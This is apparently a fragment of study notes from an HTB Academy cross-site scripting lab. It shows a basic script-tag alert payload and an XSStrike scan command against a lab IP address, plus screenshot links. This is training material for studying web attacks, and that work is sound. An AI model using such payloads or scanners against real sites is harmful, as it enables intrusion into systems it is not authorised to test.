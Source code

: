 ```html
<script>alert(window.origin)</script>
```

![alt text](../assets/images/HTB_Academy_XSS/image-31.png)

```sh
python xsstrike.py -u "http://10.129.227.72/phishing/index.php?url=test"
```


![alt text](../assets/images/HTB_Academy_XSS/image-32.png)

![alt text](../assets/images/HTB_Academy_XSS/image-33.png)
